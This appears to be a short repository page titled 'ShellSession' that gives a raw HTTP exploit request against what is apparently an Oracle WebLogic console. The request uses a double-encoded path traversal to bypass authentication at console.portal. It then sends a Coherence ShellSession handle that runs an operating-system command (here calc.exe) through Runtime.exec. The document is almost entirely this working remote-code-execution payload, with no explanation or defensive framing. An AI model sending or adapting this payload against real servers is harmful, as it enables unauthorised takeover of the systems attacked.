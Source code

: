 ![](./images/interrupt.png)




## ShellSession

`coherence-rest.jar#com.tangosol.coherence.mvel2.sh.ShellSession`

#### Payload

```
POST /console/css/%252e%252e%252fconsole.portal HTTP/1.1
Host: 172.16.242.134:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 117

_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('calc.exe');");
```